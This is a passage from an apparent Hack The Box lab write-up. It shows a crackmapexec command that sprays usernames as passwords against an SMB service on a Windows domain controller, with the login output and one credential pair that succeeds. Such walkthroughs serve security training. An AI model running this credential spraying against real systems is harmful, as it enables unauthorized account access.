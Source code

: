
I did some looking at each use and group, but didn’t identify anything that
interesting.

## Shell as mhope

### Credential Brute Force

After poking around at other things and finding very little, I came back to
the usernames I had. I created a file with one user per line, and one of the
things I checked was if any used their username as their password by running
the following `crackmapexec`. This can be a form a password spraying, because
I really only want to check one password for each user. Because my list is
small and this is HTB, I’ll just try each user with each username as the
password. In a real environment, I’d only want to try each user with their
username:

    
    
    root@kali# crackmapexec smb 10.10.10.172 -u users -p users --continue-on-success
    SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10.0 Build 17763 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:dgalanos STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:SABatchJobs STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:smorgan STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-ata STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-bexec STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\AAD_987d7f2f57d2:svc-netapp STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:dgalanos STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:SABatchJobs STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:smorgan STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-ata STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-bexec STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\dgalanos:svc-netapp STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:AAD_987d7f2f57d2 STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [-] MEGABANK.LOCAL\SABatchJobs:dgalanos STATUS_LOGON_FAILURE 
    SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
    ...[snip]...
    